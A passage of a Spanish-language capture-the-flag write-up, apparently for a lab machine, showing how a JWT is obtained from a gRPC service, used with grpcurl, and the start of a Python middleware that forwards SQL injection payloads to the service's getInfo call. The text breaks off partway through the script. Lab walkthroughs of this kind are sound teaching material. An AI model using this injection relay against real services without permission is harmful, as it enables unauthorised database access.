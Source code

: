 ```bash
Response contents:
{
  "message": "Your id is 301."
}

Response trailers received:
token: b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4NDg5NDM3N30.G4s9n9jOqSx91Nu8Kn2My0cC8SphTxefVYG6nazeWiI'
Sent 1 request and received 1 response
```

Ahora sí ya vemos el token. Ahora lo usaremos para ver que hay en `getInfo`. Ese `id` que nos da, podemos usarlo para hacer las pruebas.

```bash
$ ./grpcurl -plaintext -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4NDg5NDY5MH0.5gYk1d4TAeoDL7TfQFBxMTmJ30-7bffbgoQBqF0-QEM" -d '{"id":"301"}' 10.10.11.214:50051 SimpleApp/getInfo
{
  "message": "Will update soon."
}
```

Vemos que hay un mensaje, hay que tener cuidado, en este caso el usuario se borrará luego de un rato y necesitaremos registrarnos y loguearnos de nuevo.

## Usuario bajos privilegios

### SQLi

Cuando tenemos un **id** es común que exista una base de datos detrás, por lo que podemos probar **inyecciones SQL** para este servicio. En el backend se usa **SQLite**, sin embargo, enumerarlo de esta forma es tedioso, podemos usar `sqlmap` si usamos la herramienta basada en web para enumerar el **gRPC**, pero es mejor siempre practicar las habilidades de programación para resolver estos casos.

### MiddleWare

Programé un script, basado el [middleware](https://marcvspt.github.io/posts/middleware-para-sqli/#script-middleware-1) que desarrollé anteriormente en mí página web. Este permite comunicarme a través de **HTTP** a mi `localhost` y redirigir el tráfico al servicio **gRPC** de la máquina remota. La principal diferencia es la inclusion del **token de autorización**.

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import urlparse
from grpc import insecure_channel
import simpleapp_pb2
import simpleapp_pb2_grpc
import sys
import signal
import argparse

def signal_handler(sig, frame):
    print('[!] Exiting\n')
    sys.exit(1)

def send_grpc(payload):
    meta = [('token', f'%s' % args.token)]
    channel = insecure_channel(f'%s:%d' % (args.ip, args.rport))
    stub = simpleapp_pb2_grpc.SimpleAppStub(channel)
    request = simpleapp_pb2.getInfoRequest(id=payload)

    response = stub.getInfo(request,metadata=meta)

```